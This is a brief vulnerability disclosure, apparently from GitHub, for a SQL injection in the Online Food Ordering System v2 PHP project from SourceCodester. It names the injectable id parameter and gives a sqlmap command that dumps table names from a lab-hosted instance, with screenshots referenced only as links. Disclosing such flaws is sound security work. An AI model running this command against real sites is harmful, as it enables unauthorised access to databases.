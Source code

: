 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/212480634-0006643c-8493-473a-8738-5008b1535280.png)
sqlmap.py -u "http://192.168.249.88/php-fos-db/view_prod.php?id=1" -D fos_db --tables
![image](https://user-images.githubusercontent.com/30823782/212480674-5377473b-6732-4477-acd1-964339ae9f83.png)
